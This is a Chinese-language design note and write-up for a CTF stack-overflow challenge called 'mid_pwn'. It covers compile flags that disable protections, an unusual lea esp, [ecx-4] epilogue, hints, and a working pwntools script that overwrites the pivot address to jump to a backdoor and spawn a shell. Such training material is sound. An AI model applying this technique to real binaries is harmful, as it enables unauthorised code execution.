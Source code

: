 # 赛题设计说明

## 题目信息：

* 题目名称：mid_pwn
* 预估难度：中等
* 编译命令：gcc -m32 mid.c -no-pie -fno-stack-protector -z noexecstack -z lazy -o0 -o mid_pwn

## 题目描述

> 中等难度栈溢出

## 题目考点

1. 栈溢出
2. gdb等调试器的使用

## 思路简述

非常规栈溢出题，主要难点在于`leave`之后并非直接`retn` 而是接了`lea esp , [ecx - 4]`之后再ret; 为减轻难度,`ebp - 4`地址已在开始给出,因此最后是通过控制`[ecx - 4]`这一地址的内容来跳转后门函数获取shell

## 题目提示

1. 看main()函数的汇编代码，在返回阶段的汇编代码与常规的`leave retn`有何不同?
2. 题目一开始给了一个意义不明的地址，是用来做什么的?可以用gdb调试来查看
3. retn的实质是将esp所指向的地址中的内容 pop eip, 作为下一条指令执行,而esp已被`mov ecx, [ebp+var_4]` 以及 `lea esp, [ecx-4]`这两行修改,考虑如何控制esp中内容?

## 题目环境

1. Ubuntu 16.04 LTS

## 题目write up

关键在于

```
mov     ecx, [ebp+var_4]
leave
lea     esp, [ecx-4]
retn
```

这四行汇编指令
使得首先需要满足ecx中地址可访问(地址已在题目开始直接给出)
其次实际的返回地址并非`ebp + 4`
而是`[ecx - 4]`
通过gdb调试可以获得[ecx - 4]距ebp的偏移，即可获取shell

```python
from pwn import *
sh = process('./mid')
context.log_level = 'DEBUG'
sh.recvuntil('what\'s your name?,')
ecx = int(sh.recv()[2:10],16)
log.info('ecx = ' + hex(ecx))
#gdb.attach(sh)
backdoor = 0x0804851b
payload = 'A' * 28 + p32(ecx) + 'A'*20 + p32(backdoor)
sh.sendline(payload)
sh.interactive()
```
